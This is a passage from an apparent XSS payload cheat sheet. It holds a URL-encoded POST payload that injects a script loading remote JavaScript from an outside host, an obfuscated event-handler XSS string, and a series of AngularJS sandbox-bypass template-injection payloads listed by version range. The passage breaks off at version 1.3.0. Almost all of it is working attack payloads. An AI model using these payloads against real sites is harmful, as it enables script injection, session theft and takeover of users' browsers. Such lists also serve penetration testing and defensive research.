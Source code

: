 POST Requests:

```javascript
thegetch%22%3e<img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

From somedev on twitter:

```javascript
'"--><DeTails/opEn/oNTOggLe=(pro\u006dpt)``//
```

## AngualrJS XSS:

- https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs

List of Sandbox bypasses:

1.0.1 - 1.1.5

```javascript
{{constructor.constructor('alert(1)')()}}
```

1.2.0 - 1.2.1

```javascript
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

1.2.2 - 1.2.5

```javascript
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

1.2.6 - 1.2.18

```javascript
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

1.2.19 - 1.2.23

```javascript
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

1.2.24 - 1.2.29

```javascript
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

1.3.0
